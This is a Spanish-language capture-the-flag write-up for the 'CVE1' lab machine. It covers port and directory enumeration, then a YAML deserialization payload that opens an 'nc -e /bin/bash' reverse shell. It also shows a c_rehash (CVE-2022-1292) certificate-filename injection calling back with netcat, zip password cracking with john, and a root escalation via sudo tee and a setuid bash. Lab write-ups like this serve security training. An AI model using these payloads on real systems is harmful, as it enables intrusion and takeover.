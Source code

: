 ```php 
##########################################################################################################
#
# CTF a la Máquina CVE1 de InfayerTS (Thanks) basada en el writeup de Pablo AKA LordP4 (Thanks)
# pero finalizándola como creo que la planteó su autor.
#
# Lo dejo por aquí por si a alguien le puede resultar interesante
#
# DATE: 16/Agosto/2023
#
#########################################################################################################
```
# Footprinting

```bash 
IP_atacante -> $ifconfig -> 192.168.0.79
IP_objetivo -> $netdiscover -r 192.168.0.0/24 -> 192.168.0.86
```

# Escaneo y Enumeración

* Veo que puertos tiene abiertos,

```php 
nmap -sVC -T5 -n -p- 192.168.0.86
```
* Obtengo los siguientes puertos abiertos, 22 SSH, 80 y 9090 HTTP

```php 
PORT   STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 3a9a6c9800a7c86694fe587e61a7f9e8 (RSA)
|   256 9d6f0d13023c6545791b3d9be25e245f (ECDSA)
|_  256 82ba5482f71da265fc9f25dc43ee7e4c (ED25519)
80/tcp   open  http    Apache httpd 2.4.54 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.54 (Debian)
9090/tcp open  http    Apache httpd 2.4.54 ((Debian))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.54 (Debian)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Enumeración

* En el puerto 80 está la web de debian sin aparente modificación

* La web en el puerto `9090`, en su código fuente tiene este comentario

```php
 #Fichero<br /><!--Backend developed with PyTorch Lightning 1.5.9-->
```

* La vulnerabilidad y la POC está documentada en [https://huntr.dev/bounties/31832f0c-e5bb-4552-a12c-542f81f111e6/]
 
* Creo un fichero yml
```yml
- !!python/object/new:yaml.MappingNode
  listitems: !!str '!!python/object/apply:subprocess.Popen [["nc","-e", "/bin/bash", "192.168.0.79", "1234"]]'
  state:
    tag: !!str dummy
    value: !!str dummy
    extend: !!python/name:yaml.unsafe_load
```
* Pongo un netcat a la escucha, pero no me funciona

* Hago búsqueda de directorios y ficheros y veo que existe un fichero llamado `file.yaml`

```php
gobuster dir -r -u http://192.168.0.86:9090/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,html,yaml

===============================================================
2023/08/10 22:39:59 Starting gobuster in directory enumeration mode
===============================================================
/manual               (Status: 200) [Size: 676]
/file.yaml            (Status: 200) [Size: 235]
```
* Lo hago pero llamando el fichero `file.yaml`, espero un ratito y ahora si funciona

# Acceso

* Existe un usuario llamado `wicca` y dentro de `/etc/cron.d/` existe un fichero llamado `cve1` con este contenido

```php
*/1 * * * * www-data python3 /var/www/cve/2021-4118.py
*/1 * * * * www-data sleep 20; python3 /var/www/cve/2021-4118.py
*/1 * * * * www-data sleep 40; python3 /var/www/cve/2021-4118.py
*/1 * * * * wicca c_rehash /etc/ssl/certs/
*/1 * * * * wicca sleep 30; c_rehash /etc/ssl/certs/
*/1 * * * * root python3 /root/0845.py
*/1 * * * * root sleep 20; python3 /root/0845.py
*/1 * * * * root sleep 40; python3 /root/0845.py
```
* El comando `c_rehash` tiene una vulnerbilidad **CVE-2022-1292**, [https://github.com/alcaparra/CVE-2022-1292/blob/main/README.md]

1. Me voy al directorio `/etc/ssl/certs`
2. Me creo el fichero
```php
echo "-----BEGIN CERTIFICATE-----" > "hey.crt\`nc -c sh 192.168.0.79 12345\`"
```
3. Espero que se ejecute el cron y ya soy `wicca`
4. Obtengo bandera

```console
HMVM{}
```

# Elevación a Root

* Ejecuto un `sudo -l`

```php
User wicca may run the following commands on cve-pt1:
    (root) NOPASSWD: /usr/bin/tee
```
> El comando `tee` redirecciona a un fichero, parecido a lo que hace `>`

# Hasta ahora es clavado al writeup de Pablo

## Elevación a root II forma

* En el directori de `wicca` tenemos un fichero zip protegido con contraseña. Me lo traigo a mi máquina y lo crackeo con John.

```php
zip2john Backup.zip > Backup.zip.hash

john --wordlist=/usr/share/wordlists/rockyou.txt Backup.zip.hash
```

* La password es `secret!` y dentro tengo un fichero en python `0845.py`

```python
───────┬────────────────────────────────────────────────────────────
       │ File: 0845.py
───────┼────────────────────────────────────────────────────────────
   1   │ #!/usr/bin/env python3
   2   │ 
   3   │ import os, sys
   4   │ from pytorch_lightning import Trainer
   5   │ from pytorch_lightning.utilities.argparse import *
   6   │ 
   7   │ os.environ["PL_TRAINER_GPUS"] = 'os.system("COMMAND LIST")'
   8   │ parse_env_variables(Trainer)
───────┴────────────────────────────────────────────────────────────
```

* Y un fichero `readme.txt`

```php
Dear Admin,

I leave you in this directory the script that I have developed, be sure to take a look at the code and parameterize the command you want to run.

Best regards,

PS: For convenience you can indicate a text file with the list of command you want to run.

Wicca
Developer of Doom
```

* En el cron también vi una línea que ejecutaba un script python

```php
*/1 * * * * root python3 /root/0845.py
```

* Y debe tener una línea `'os.system("COMMAND LIST")'` en la que que **COMMAND LIST** llamará a un fichero de texto con el comando que quiera ejecutar.
 
* Puedo intentar modificar un supuesto fichero `/root/command.txt`, según comenta en el *readme* con un comando a ejecutar, porque puedo usar `tee` como `root`

```php
echo "chmod u+s /bin/bash" | sudo /usr/bin/tee /root/command.txt
```

* Y esperar a que el cron lo ejecute

```php
ls -l /bin/bash
-rwsr-xr-x 1 root root 1234376 Mar 27  2022 /bin/bash
```

* Ejecuto un `bash -p` y ya soy `root`

```php
bash -p
bash-5.1# whoami
whoami
root
```

* Obtengo bandera

```php
bash-5.1# ls -l
ls -l
total 12
-r--r----- 1 root root 248 Dec  7  2022 0845.py
-rw-r--r-- 1 root root  20 Aug 16 10:10 command.txt
-r-------- 1 root root  39 Dec  7  2022 root.txt
bash-5.1# cat root.txt
cat root.txt
HMVM{}
```
